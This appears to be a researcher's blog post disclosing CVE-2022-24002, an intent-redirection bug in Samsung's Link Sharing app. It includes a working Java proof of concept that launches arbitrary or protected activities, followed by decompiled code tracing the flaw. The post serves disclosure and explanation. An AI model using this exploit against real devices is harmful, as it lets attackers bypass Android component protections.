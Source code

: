 ```yaml
---
layout: post
title:  "CVE-2022-24002 - Samsung Link Sharing Start Any Activity"
date:   2022-02-11 10:00:00 -0500
categories: research
tags: bug collision
---
```


In 2021, as part of my research for Austin Pwn2Own 2021, I found a bug where the Link Sharing application could be abused to start either:

* Any exported activity
* Any protected activity within the Link Sharing application

I submitted this bug to Samsung but they said someone else already reported it. Today Samsung publicly disclosed the CVE ID for this issue, and credit goes to Dawuge of Pangu Team. I guess it is safe for me to disclose my PoC for it:

```
Intent intent = new Intent();
intent.setComponent(new ComponentName("com.samsung.android.app.simplesharing", "com.samsung.android.app.simplesharing.presentation.precondition.PreconditionActivity"));

Intent intent2 = new Intent();
intent2.setComponent(new ComponentName("com.sec.android.app.sbrowser", "com.sec.android.app.sbrowser.SBrowserLauncherActivity")); // replace with any other target component
intent2.setData(Uri.parse("https://www.f-secure.com"));
intent2.putExtra("yay", "boo");

Bundle bundle = new Bundle();
bundle.putInt("extra_request_code", 9001);
bundle.putParcelable("extra_former_intent", intent2);

intent.putExtras(bundle);

startActivity(intent);
```

## Technical Details

When `PreConditionActivity` is opened, the Intent is passed onto `com.samsung.android.app.simplesharing.presentation.precondition.PreconditionViewModel.handlePrecondition(intent)`:

```
package com.samsung.android.app.simplesharing.presentation.precondition;

public final class PreconditionActivity extends AppCompatActivity {

    public void onCreate(Bundle bundle) {
        AndroidInjection.inject(this);
        ...
        PreconditionViewModel viewModel = getViewModel();
        ...
        viewModel.handlePrecondition(intent);
    }

    public final PreconditionViewModel getViewModel() {
        return (PreconditionViewModel) this.viewModel$delegate.getValue();
    }
```
The Intent is processed, and the parcelable extra `extra_former_intent` is stored in the variable `formerIntent`. This variable can then be called via the method `getFormerIntent()`:

```
package com.samsung.android.app.simplesharing.presentation.precondition;

public final class PreconditionViewModel extends AndroidViewModel {

    private Intent formerIntent;

    public final void handlePrecondition(Intent intent) {
        if (!this.isInit) {
            this.isInit = true;
            if (isFromSdk(intent)) {
                this.callerType = CallerType.TYPE_SDK;
                if (enforceShowPermissionNotice()) {
                    setShouldEnforceShowPermissionNotice();
                } else {
                    setShouldRequestPermission();
                }
            } else if (isOptionalContactRequest(intent)) {
                setShouldRequestContactPermission();
            } else if (isOptionalCameraRequest(intent)) {
                setShouldRequestCameraPermission();
            } else {
                Intent intent2 = (Intent) intent.getParcelableExtra("extra_former_intent");
                this.formerIntent = intent2;
                ...
    }

    public final Intent getFormerIntent() {
        return this.formerIntent;
    }
```

Going back to the class `com.samsung.android.app.simplesharing.presentation.precondition.PreconditionActivity`, the method `startFormalIntentActivity()` is called which then retrieves the variable `formerIntent` via `getFormerIntent()`, and then calls class `com.samsung.android.app.simplesharing.presentation.common.util.NavigatorUtil` method `startActivityFromFormerIntent(Activity, Intent)`:

```
package com.samsung.android.app.simplesharing.presentation.precondition;

public final class PreconditionActivity extends AppCompatActivity {

    public final void startFormalIntentActivity() {
        if (getViewModel().isProcessRestart()) {
            NavigatorUtil.startHistoryActivity$default(NavigatorUtil.INSTANCE, this, false, null, 6, null);
        } else {
            Intent formerIntent = getViewModel().getFormerIntent();
            if (formerIntent != null) {
                NavigatorUtil.INSTANCE.startActivityFromFormerIntent(this, formerIntent);
            }
        }
        finishWithSuccess();
    }
```

The `formerIntent` is finally passed to `startActivity(Activity, Intent)`, where the component in the `formerIntent` is used to start a new activity:

```
package com.samsung.android.app.simplesharing.presentation.common.util;

public final class NavigatorUtil {

    public final void startActivityFromFormerIntent(Activity activity, Intent intent) {
        Intent copyIntent = copyIntent(intent);
        if (intent.getClipData() != null) {
            copyIntent.setClipData(intent.getClipData());
            copyIntent.addFlags(1);
        }
        INSTANCE.startActivity(activity, copyIntent);
    }
```